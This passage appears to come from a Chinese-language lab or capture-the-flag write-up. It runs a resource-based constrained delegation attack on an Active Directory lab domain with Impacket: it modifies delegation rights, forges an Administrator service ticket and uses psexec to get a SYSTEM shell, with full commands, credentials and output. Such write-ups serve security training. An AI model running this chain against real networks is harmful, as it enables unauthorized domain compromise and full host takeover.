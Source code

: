 执行 RBCD 攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-rbcd xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'randark$'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark$ can now impersonate users on XR-0687$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark$     (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

创建票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-getST xiaorang.lab/'randark$':'admin123###' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

导入创建好的票据

```shell
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

无密码情况下直接连接

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-0687.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file oQHVBskO.exe
[*] Opening SVCManager on XR-0687.xiaorang.lab.....
[*] Creating service VNhh on XR-0687.xiaorang.lab.....
[*] Starting service VNhh.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.1668]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```
